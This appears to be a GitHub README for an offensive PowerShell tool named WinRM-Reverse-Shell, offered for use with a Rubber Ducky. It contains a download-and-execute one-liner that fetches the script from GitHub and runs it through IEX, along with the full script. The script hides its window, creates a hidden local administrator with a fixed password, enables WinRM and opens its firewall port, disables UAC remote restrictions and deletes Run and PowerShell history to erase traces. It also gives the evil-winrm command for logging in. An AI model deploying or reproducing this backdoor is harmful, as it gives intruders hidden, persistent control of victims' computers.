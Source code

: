 # WinRM-Reverse-Shell

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload
### The payload is in this repo aswel 
+ Edit your own speed of the payload
+ You can change to URL to your own 



https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec



# Script into pieces
## Function to hide a window
function Hide-Window {
    param(
        [IntPtr]$Handle = (Get-Process -PID $PID).MainWindowHandle
    )
    Add-Type @"
    using System;
    using System.Runtime.InteropServices;

    public class Window {
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetConsoleWindow();
    }
"@
    [void][Window]::ShowWindow($Handle, 0)
}

## Hide the current PowerShell window
Hide-Window

## Create a new local user account
$Username = "Admin"
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Delete run box history
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -Force

## Delete powershell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script
